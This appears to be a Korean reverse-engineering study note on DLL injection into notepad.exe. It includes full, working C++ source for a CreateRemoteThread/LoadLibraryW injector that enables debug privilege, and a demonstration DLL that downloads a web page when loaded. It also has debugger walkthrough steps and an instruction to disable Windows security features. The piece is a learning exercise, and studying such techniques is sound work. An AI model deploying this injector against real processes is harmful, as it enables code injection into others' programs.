# 1. DLL 인젝션
실행중인 다른 프로세스에 특정 dll 파일을 강제로 삽입.
즉, 다른 프로세스에게 LoadLibrary API를 호출하여 악성 DLL을 로드하게 만드는것

> 참고: DLL이 프로세스에 로드될때 자동으로 DllMain 함수가 실행된다.

## 방법 1. 원격 스레드 생성: CreateRemoteThread() API
### [리뷰]
 
...



    
    1. 문제발생: 무슨 이유에서인지 윈도우즈11에서 SysWOW64 하위의 32비트 notepad.exe 바이너리를 실행하면, System32 폴더의 64-bit notepad.exe 로 리다이렉팅된다.
    2. 문제해결: Windows XP 에서 사용됐던 32-bit notepad.exe 를 구해 실행한다.




notepad.exe에 로드된 dll을 살펴보면 myhack.dll이 잘 로드되어있다.
> `Process Explorer` -> `View` -> `Show Lower Pane` 체크


naver 의 html 이 잘 다운로드 되어있다.

<details>
<summary>myhack.dll 의 소스코드(cpp)</summary>

```cpp
#include "windows.h"
#include "tchar.h"

#pragma comment(lib, "urlmon.lib")

#define DEF_URL     	(L"http://www.naver.com/index.html")
#define DEF_FILE_NAME   (L"index.html")

HMODULE g_hMod = NULL;

// 생성된 스레드가 실행하는 함수
DWORD WINAPI ThreadProc(
    LPVOID lParam // CreateThread의 4번째 인자로 전달되는 사용자 데이터(여기서는 NULL이라 사용 안 함)
)
{
    TCHAR szPath[_MAX_PATH] = {0,}; // 문자열을 조작할 버퍼(myhack.dll -> index.html)

    if( !GetModuleFileName( 
            g_hMod,     // 모듈의 핸들(여기서는 DLL) 
            szPath,     // 파일 경로 저장 버퍼(dll의 절대경로 저장)
            MAX_PATH    // 파일 경로 길이(일반적으로 260)
        ) 
    ) return FALSE;
	
    // 문자열에서 마지막 백슬래시(\) 를 찾아 위치를 반환
    TCHAR *p = _tcsrchr( szPath, '\\' );
    if( !p )
        return FALSE;

    // 마지막 백슬래시 다음 위치부터 문자열 복사
    _tcscpy_s(
        p+1,            // 복사할 버퍼의 시작주소
        _MAX_PATH,      // 복사 대상 버퍼의 크기
        DEF_FILE_NAME   // 복사할 문자열
    );

    URLDownloadToFile(
        NULL,    // 호출 주체의 COM 인터페이스 포인터(일반적인 단독 호출이면 NULL) *추후 COM 객체와 함께 공부할 내용
        DEF_URL, // 다운로드할 원본 URL
        szPath,  // 내려받은 파일을 저장할 로컬 경로 문자열
        0,       // 예약 플래그(보통 0 사용)
        NULL     // 콜백 인터페이스 포인터(진행상황 알림이 필요 없으면 NULL)
    );

    return 0;
}

// dll 이 로드되면 최초로 실행되는 함수 DllMain()
BOOL WINAPI DllMain(
    HINSTANCE hinstDLL, // dll의 인스턴스 핸들(프로세스 가상주소공간에서 dll의 시작주소)
    DWORD fdwReason,    // DllMain의 호출이유
    LPVOID lpvReserved  // 예약인자(이제 안씀)
)
{
    HANDLE hThread = NULL;

    g_hMod = (HMODULE)hinstDLL;

    switch( fdwReason )
    {
    case DLL_PROCESS_ATTACH : 
        OutputDebugString(L"<myhack.dll> Injection!!!"); // 커널의 디버그 출력버퍼에 문자열 기록
        hThread = CreateThread(
                    NULL,       // 스레드의 보안속성
                    0,          // 스레드의 스택 크기
                    ThreadProc, // 새로 시작할 스레드가 실행할 함수의 포인터
                    NULL,       // 스레드 함수에 전달할 인자
                    0,          // 스레드 생성 옵션(0이면 즉시 실행)
                    NULL        // 생성된 스레드의 ID를 받을 변수
                );
        // 스레드의 생애와 상관없이 즉시 핸들을 해제 -> 스레드는 여전히 실행중
        CloseHandle(hThread);
        break;
    }

    return TRUE;
}
```
</details>

<details>
<summary>InjectDll.exe 의 소스코드(cpp)</summary>

```cpp
#include "windows.h"
#include "tchar.h" 
// 유니코드와 멀티바이트 컴파일을 위해 TCHAR 환경을 제공하는 헤더

BOOL SetPrivilege(LPCTSTR lpszPrivilege, BOOL bEnablePrivilege) 
{
    /*
        함수 기능: 타겟 프로세스에 접근하기 위해 현재 프로세스에 디버그 권한(SE_DEBUG_NAME)을 부여 
        -> 같은 보안수준의 프로세스라면 개입할수 있다.
                    
        첫번째 인자: winnt.h 에 정의(이외에도 다양하다.)
            SE_DEBUG_NAME	      :시스템의 모든 프로세스를 디버깅 및 조작할 수 있는 권한(인젝션에 사용).
            SE_SHUTDOWN_NAME      :로컬 시스템을 종료할 수 있는 권한.
            SE_BACKUP_NAME	      :파일 보안을 무시하고 백업을 위해 파일 데이터를 읽을 수 있는 권한.
            SE_CREATE_GLOBAL_NAME :전역 이름 공간에 객체(예: 세마포어)를 생성할 수 있는 권한.
        두번째 인자:
            TRUE  : 활성화
            FALSE : 비활성화
    */
    TOKEN_PRIVILEGES tp; // 권한 지시서
    HANDLE hToken;       // 보안 토큰 핸들
    LUID luid;           // 권한 식별자

	//2.1 프로세스 가상핸들을 이용해 보안 토큰에 대한 권한을 설정
    if( !OpenProcessToken(GetCurrentProcess(), // 현재 프로세스의 가상핸들 획득
                        TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, // 권한 목록변경 권한과 토큰 내의 정보를 조회 권한을 한번에 요청(일반 권한으로 충분)
						&hToken) ) // 현재 프로세스 보안토큰 핸들을 저장할 변수
    {
        _tprintf(L"OpenProcessToken error: %u\n", GetLastError());
        return FALSE;
    }

	//2.2 프로세스 보안 토큰 제어 설정 문자열을 시스템 전역에서 식별되는 LUID 로 변환한다.(LUID 는 부팅시 바뀐다.)
    if( !LookupPrivilegeValue(NULL,           // 타겟 시스템, NULL 은 로컬시스템을 의미
                              lpszPrivilege,  // LUID 로 바꿀 문자열
                              &luid) )        // LUID 구조체 주소를 저장할 포인터
    {
        _tprintf(L"LookupPrivilegeValue error: %u\n", GetLastError() ); 
        return FALSE; 
    }
    
    // 구조체 tp 의 두번째 필드 Privileges[] 는 하나의 _LUID_AND_ATTRIBUTES 구조체를 갖고있으므로 필드를 직접 채운다.
    tp.PrivilegeCount = 1;
    tp.Privileges[0].Luid = luid;
    
    if( bEnablePrivilege ) // 함수가 전달받은 두번째 인자가 활성화(TRUE)일 경우 _LUID_AND_ATTRIBUTES 구조체 속성 필드를 활성화로 채운다.
        tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    else
        tp.Privileges[0].Attributes = 0; // 0은 SE_PRIVILEGE_REMOVED 와 동일

		// 여기까지 수행해서 구조체 tp 를 완성했다. 
		// 구조체 tp 는 TOKEN_PRIVILEGES 구조체이고, 이는 프로세스 보안 토큰을 제어하기 위해 세팅된 지시서이다.

    // Enable the privilege or disable all privileges.
    if( !AdjustTokenPrivileges(hToken,                    // 보안 토큰 핸들
                               FALSE,                     // 좀 특이하게도, false일때 세번째 인자인 TOKEN_PRIVILEGES 구조체(지시서) 대로 권한을 활성화한다.     
                               &tp,                       // TOKEN_PRIVILEGES 구조체(권한 지시서)
                               sizeof(TOKEN_PRIVILEGES),  // 세번째 인자의 크기를 전달한다. TOKEN_PRI,ㅍVILEGES 인 이유는 tp 의 두번째 필드인 배열 원소가 1개 뿐이기 때문이다.
                               (PTOKEN_PRIVILEGES) NULL,  // 보안 토큰 핸들에 저장된 변경전의 TOKEN_PRIVILEGES 구조체 정보를 저장할 포인터
                               (PDWORD) NULL) )           // 4번째 인자에 저장할 실제 바이트수
    {   
    /*
    프로세스 보안 토큰은 프로세스마다 하나씩 존재하는 커널 객체로, 필요에 따라 스레드는 프로세스와 별개의 위장(Impersonation)토큰을 가질수 있다.
    보안 토큰은 직접 포인터로 접근하지 않고 핸들을 통해 간접 접근하여 관리한다.

    주의할점!!!: AdjustTokenPrivileges 이 보안 토큰에 존재하지 않던 Privilege 를 추가하거나, 삭제할순 없다. 단순히 이미 존재하나, 비활성화(Disabled)된 Privilege 를 활성화(Abled) 시킬뿐.
	*/
        _tprintf(L"AdjustTokenPrivileges error: %u\n", GetLastError() ); 
        return FALSE; 
    } 

    if( GetLastError() == ERROR_NOT_ALL_ASSIGNED )
    {
        _tprintf(L"The token does not have the specified privilege. \n");
        return FALSE;
    } 

    return TRUE;
}

BOOL InjectDll(DWORD dwPID, LPCTSTR szDllPath)
{
    HANDLE hProcess = NULL, hThread = NULL;
    HMODULE hMod = NULL;
    LPVOID pRemoteBuf = NULL;
    DWORD dwBufSize = (DWORD)(_tcslen(szDllPath) + 1) * sizeof(TCHAR); // DLL경로 문자열의 총 바이트수
    LPTHREAD_START_ROUTINE pThreadProc;

    // #1. dwPID 를 이용해 대상 프로세스 (notepad.exe)의 HANDLE을 구한다.
    if ( !(hProcess = OpenProcess(PROCESS_ALL_ACCESS, // 프로세스를 어떤 권한으로 열지 결정
                                  FALSE,              // 자식 프로세스에게 핸들을 상속하지 않음
                                  dwPID) )            // 열고자 하는 pid
    )
    {
        _tprintf(L"OpenProcess(%d) failed!!! [%d]\n", dwPID, GetLastError());
        return FALSE;
    }

    // #2. 대상 프로세스(notepad.exe)의 메모리에 DLL절대경로 길이만큼의 메모리를 할당하고 "대상 프로세스의 메모리 포인터"를 반환한다.
    pRemoteBuf = VirtualAllocEx(hProcess,       // 목표 프로세스 핸들
                                NULL,           // 프로세스의 시작주소를 임의로
                                dwBufSize,      // 할당할 버퍼 크기(dll경로문자열크기)
                                MEM_COMMIT,     // 접근 가능한 페이지로 만듦
                                PAGE_READWRITE);// 메모리 읽기/쓰기 허용

    // #3. 대상 프로세스(notepad.exe)의 할당된 메모리에 DLL 절대경로를 쓴다.
    WriteProcessMemory(hProcess,            // 목표 프로세스 핸들
                       pRemoteBuf,          // 목표 프로세스 내부의 가상주소
                       (LPVOID)szDllPath,   // 현재 프로세스 내부의 dll경로 문자열 시작주소
                       dwBufSize,           // Write 할 바이트 크기
                       NULL);               // Write 한 결과, 바이트 크기를 반환할 변수

    // #4. LoadLibraryW() API를 이용해 DLL을 로드한다.
    hMod = GetModuleHandle(L"kernel32.dll");    // 현재 프로세스가 로드한 모듈 kernel32.dll 의 핸들(전역핸들이 아님)
    pThreadProc = (LPTHREAD_START_ROUTINE)GetProcAddress(hMod, "LoadLibraryW"); // 모듈핸들과 함수명 문자열을 통해 프로시저 가상주소를 획득한다.
    /*
        여기서 짚을점:
        kernel32.dll은 부팅 이후(ASLR) 모든 프로세스에서 동일한 주소에 로드하려는 성질의 DLL이므로(윈도우 핵심 DLL 들의 특징), 
        LoadLibraryW() API를 이용해 대상 프로세스가 아닌 현재 InjectDll.exe 프로세스의 
        kernel32.dll LoadLibraryW() 함수 주소를 가져와도 무방하다.
    */
	
    // 핵심로직: #5. notepad.exe의 메모리에 로드된 DLL을 실행한다.
    hThread = CreateRemoteThread(
                                 hProcess,      // 목표 프로세스 핸들
                                 NULL,          // 스레드 보안 특성
                                 0,             // 스레드 스택 크기
                                 pThreadProc,   // LoadLibraryW() 함수 주소
                                 pRemoteBuf,    // pThreadProc 함수의 첫번째 인자로 전달된다(악성 DLL 절대 경로가 저장된 메모리 주소).
                                 0, 
                                 NULL
                                );
    // CreateRemoteThread() 함수는 대상 프로세스의 메모리에 로드된 악성DLL 절대경로 문자열과 LoadLibraryW() 함수 주소를 이용해 악성DLL을 로드한다.

    WaitForSingleObject(hThread, INFINITE);	// 목표 프로세스에서 실행한 LoadLibraryW 스레드가 끝날 때까지 무한정 기다림

    CloseHandle(hThread);
    CloseHandle(hProcess);

    return TRUE;
}


// 1. 진입점: 
int _tmain(int argc, TCHAR *argv[])
{
    /* 
        컴파일 옵션에 따라 유니코드용 바이너리, 멀티바이트용 바이너리 등으로 구분하기위해, _t 가 붙은 함수를 사용한다.
        이때 유니코드 프로토콜에 맞추면, wmain 이, 멀티바이트 프로토콜에 맞추면, main 이 된다.		
        문자열의 경우 앞에 "_T" 혹은 "L" 을 붙여 컴파일러에게 선택할수 있게 한다.
        유니코드 컴파일 옵션 : cl /D_UNICODE /DUNICODE InjectDll.cpp windows.lib
        멀티바이트(default) 컴파일 옵션: cl /D_MBCS InjectDll.cpp windows.lib
    */

    // 2. 실행 인자 확인
    if( argc != 3)
    {
        _tprintf(L"USAGE : %s <pid> <dll_path>\n", argv[0]);
        return 1;
    }

    // 3. 현재 프로세스 보안 토큰의 권한을 디버그 권한으로 설정하는 함수
    if( !SetPrivilege(SE_DEBUG_NAME, TRUE) ) // SE_DEBUG_NAME 는 Winnt.h 에 정의된 "SeDebugPrivilege" 문자열 포인터이다.
        return 1;

    // 4. inject dll
    if( InjectDll((DWORD)_tstol(argv[1]), argv[2]) )
		    // _tstol 함수를 이용해 1번째 인자인 문자열(pid)을 long 타입의 정수로 변환한뒤, PID 의 자료형인 (DWORD)로 형변환한다
        _tprintf(L"InjectDll(\"%s\") success!!!\n", argv[2]);
    else
        _tprintf(L"InjectDll(\"%s\") failed!!!\n", argv[2]);

    return 0;
}
```
</details>

### [실습] 원격 스레드 생성 CreateRemoteThread() API

1. 윈도우즈 모든 보안 기능 끄기: 예외처리 로직으로 진입하는 것을 방지
    
    ~~이거 때문에 윈도우즈11 에서 5시간 날림~~


2. notepad.exe(x86) 실행:                              
    
    
    윈도우즈10 이상의 notepad.exe는 32비트 바이너리를 실행해도 64비트 notepad.exe를 실행해버린다..~~이유는 모르겠음~~


3. notepad.exe 에 x32dbg Attach

    > 이때, 이벤트 중단 설정에서 스레드 진입/생성과 유저 dll진입점만 체크한다
    


4. notepad.exe pid를 타겟으로 인젝터 실행



5. myhack.dll 의 EP까지 실행

    f9 몇번 연타시 `call 10002A09` 와 `call 100012F5` 를 확인할수 있다.


6. `call 10002A09` 로직 확인

    `GetSystemTimeAsFileTime`, `GetCurrentThreadId`, `GetTickCount` 등의 정밀한 시간 측정 API가 등장하는것으로 보아, 윈도우 CRT/런타임 초기화 로직으로 추정. 분석 스킵


7. `call 100012F5` 로직 확인

    많고 많은 함수 호출이 보인다. 하나씩 확인
    > `call 100026B0` 로직 확인: 쿠키 로직
    
    
    > `call 10001191` 로직 확인: 초기화 로직
    
    
    `GetCommandLineA`, `DecodePointer`, `GetCurrentThreadId` 등의 명령어 문자열, 복호화, 스레드id반환 API가 등장하는것으로 보아, 윈도우 초기화 로직으로 추정. 분석 스킵

    > `call 100010B0` 로직 확인: DllMain 로직 확인
    
    소스코드에서 확인한 API들이 보인다.


8. `call 100010B0` 로직 확인

CreateThread의 세번째 인자 10001000 은 새로 생성되는 스레드가 실행할 함수 포인터이다.

9. `call 10001000` 로직 확인

순서대로 `버퍼초기화` -> `dll절대 경로저장` -> `절대 경로 문자열 버퍼 조작` -> `조작된 문자열을 파일이름으로 url 다운로드` -> `쿠키검증`


## 방법 2. 레지스트리 이용: AppInit_DLLs 값 조작


## 방법 3. 메시지 후킹: SetWindowsHookEx() API


# 관련 자료
[[1] LUID에 관하여](https://mj-bin.github.io/...)
